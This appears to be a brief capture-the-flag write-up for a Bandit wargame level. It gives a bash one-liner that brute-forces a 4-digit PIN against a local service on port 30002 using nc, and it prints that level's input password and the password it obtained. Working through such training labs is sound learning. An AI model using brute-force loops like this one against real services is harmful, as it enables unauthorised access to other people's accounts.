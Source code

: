 - For this level we need to brute force the authentication mechanism that is running on port ```30002``` for user ```bandit25```
- The input takes the password for ```bandit24``` and a 4 digit PIN, that we need to bruteforce
- We write a bash one liner for that: ```for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002```
- Obtained password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4